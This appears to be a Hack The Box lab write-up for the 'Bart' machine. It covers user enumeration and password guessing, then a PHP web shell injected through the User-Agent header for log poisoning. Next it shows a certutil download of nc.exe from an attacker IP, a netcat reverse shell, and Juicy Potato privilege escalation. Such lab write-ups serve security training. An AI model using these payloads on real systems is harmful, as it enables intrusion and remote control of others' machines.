
HTB: Bart
Sub domains found
Possible users found

Found another user in html code
Harvey Potter h.potter
<!-- <div class="owl-item" style="width: 380px;"><div class="team-item"> <div class="team-inner"> <div class="pop-overlay"> <div class="team-pop"> <div class="team-info"> <div class="name">Harvey Potter</div> <div class="pos">Developer@BART</div> <ul class="team-social"> <li><a class="facebook" href="#" target="_blank"><i class="fa">F</i></a></li> <li><a class="twitter" href="#" target="_blank"><i class="fa">T</i></a></li> <li><a class="google" href="#" target="_blank"><i class="fa">G</i></a></li> <li><a class="mail" href="mailto:h.potter@bart.htb" target="_blank"><i class="fa">M</i></a></li> </ul> </div> </div> </div> <div class="avatar"> <img src="webste/1_002.jpg" class="attachment-sydney-medium-thumb size-sydney-medium-thumb wp-post-image" alt="" sizes="(max-width: 400px) 100vw, 400px" width="400" height="400"> </div> </div> <div class="team-content"> <div class="name"> Harvey Potter </div> <div class="pos">Developer@BART</div> </div> </div></div>--> <!-- Adding other employees breaks the CSS, I will fix it later. -->
Forum Site is running WordPress 4.8.2
Monitoring site running php monitor v3.2.1

Using all the names found above I generated possible usernames with username anarchy and we found a valid one.
http://monitor.bart.htb/index.php?action=forgot

daniel and harvey are valid users
I tried brute forcing with hydra and burpsuite. Hydra found nothing probably due to the csrf token. Even with the right password it failed. I had generated a wordlist with harvey potters information and burpsuite was taking forever as it was roughly 5000 words. I looked up the guide and the password is potter(which was on my list and would have eventually worked but free version of burp takes forever).
Harvey:Potter
Once signed in we can see another sub domain

With another login page

Tried brute forcing with no luck found some directories. Register.php is super interesting.

I tried creating a user and had done it at the wrong link. I did it at register_form.php as i found from the source code but I should have done it with register.php. Simple mistake.
POST /simple_chat/register.php HTTP/1.1
Host: internal-01.bart.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=1bpn3ts6gtr300uvqbdv3fnjug
Connection: keep-alive
Content-Length: 36
uname=testuser&passwd=testpassword

Interesting code in the html
<script> function saveChat() { // create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done" var xhr = new XMLHttpRequest(); xhr.onreadystatechange = function() { if (xhr.readyState == XMLHttpRequest.DONE) { alert(xhr.responseText); } } xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true); xhr.send(null); alert("Done"); } </script>
Looking at this code I instantly thought of log poisoning and that's exactly what we have here.

GET /log/log.php?cmd=dir&filename=log.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_GET['cmd']); ?>
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://internal-01.bart.htb/
Cookie: PHPSESSID=1bpn3ts6gtr300uvqbdv3fnjug
Shell as nt authority\iusr
Upload nc.exe to the machine using the RCE exploit above and certutil
GET /log/log.php?cmd=certutil+-urlcache+-f+http%3a//10.10.14.8/nc.exe+nc.exe&filename=log.php&username=harvey HTTP/1.1Host: internal-01.bart.htbUser-Agent: <?php system($_GET['cmd']); ?>Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brConnection: keep-aliveReferer: http://internal-01.bart.htb/Cookie: PHPSESSID=1bpn3ts6gtr300uvqbdv3fnjug
Executing nc.exe for a shell
GET /log/log.php?cmd=.\nc.exe+-e+cmd+10.10.14.8+443&filename=log.php&username=harvey HTTP/1.1Host: internal-01.bart.htbUser-Agent: <?php system($_GET['cmd']); ?>Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brConnection: keep-aliveReferer: http://internal-01.bart.htb/Cookie: PHPSESSID=1bpn3ts6gtr300uvqbdv3fnjug
We get a callback

Shell as system
We cannot get the user flag yet but we do have impersonate privilege enabled so we should be able to exploit this.

Using Juciy Potato
jp.exe -t * -p shell.bat -c {e60687f7-01a1-40aa-86ac-db1cbf673334} -l 8080

